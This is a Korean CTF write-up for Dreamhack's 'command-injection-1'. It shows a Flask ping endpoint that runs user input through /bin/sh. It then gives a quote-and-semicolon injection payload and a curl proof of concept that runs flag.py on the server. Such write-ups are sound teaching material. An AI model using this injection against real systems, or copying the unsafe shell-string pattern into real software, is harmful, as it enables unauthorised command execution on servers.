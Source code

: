```yaml
---
title: "[CTF] command-injection-1"
date: 2025-09-18 19:00:00 +0900
categories: [CTF, Web]
tags: [CTF, command-injection]
description: "드림핵 command-injection-1"
author: "송지민"
toc: true
---
```


## 문제 개요
웹앱이 사용자 입력 값 `host`를 받아 쉘에서 `ping -c 3 "{host}"` 명령을 실행한다. 입력값을 따옴표로 감싸서 사용하지만, 서버 측에서 추가적인 필터링이 없어 따옴표/세미콜론을 이용한 커맨드 인젝션이 가능하다.

문제 코드:

```python
#!/usr/bin/env python3
import subprocess

from flask import Flask, request, render_template, redirect

from flag import FLAG

APP = Flask(__name__)


@APP.route('/')
def index():
    return render_template('index.html')


@APP.route('/ping', methods=['GET', 'POST'])
def ping():
    if request.method == 'POST':
        host = request.form.get('host')
        cmd = f'ping -c 3 "{host}"'
        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            return render_template('ping_result.html', data=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('ping_result.html', data='Timeout !')
        except subprocess.CalledProcessError:
            return render_template('ping_result.html', data=f'an error occurred while executing the command. -> {cmd}')

    return render_template('ping.html')


if __name__ == '__main__':
    APP.run(host='0.0.0.0', port=8000)
```

## 내가 실제로 푼 방법
폼의 `host` 입력값이 클라이언트 측 `pattern`으로 제한되어 있었지만, 개발자도구로 해당 필드를 지우거나 직접 POST 요청을 보내면 우회 가능했다. 서버는 입력을 따옴표로 감싸서 실행하지만, 쉘에서 세미콜론(`;`)으로 명령 연결과 `#`으로 주석을 만들어 주입할 수 있다.

### 내가 사용한 페이로드
```
8.8.8.8" ; flag.py #
```

설명:
- 서버에서 실행되는 명령은 `ping -c 3 "8.8.8.8" ; flag.py #"`
- `;`로 이어진 `flag.py` 명령이 실행되고 `#` 이후는 주석 처리되어 남은 따옴표 문제가 무시된다.
- 개발자 도구로 input `pattern` 제거 후 폼 제출하거나 curl로 직접 POST하면 된다.

### PoC
```bash
curl -X POST -F 'host=8.8.8.8" ; python3 flag.py #' http://TARGET:8000/ping
```

설명:
- 클라이언트 측 검사만 있고 서버 측에서 입력을 안전하게 처리하지 않으면 이런 방식으로 임의 명령을 실행할 수 있다.
- 내가 폼에 위 값을 넣고 제출하니 flag.py가 실행되어 FLAG를 화면에 출력했다.

## 재현 흐름
1. 개발자도구로 input `pattern` 제거(또는 curl 사용)  
2. POST /ping with host=`8.8.8.8" ; python3 flag.py #`  
3. 서버가 쉘로 명령을 실행 → flag 내용이 결과에 포함  
4. 화면에서 FLAG 확인

---
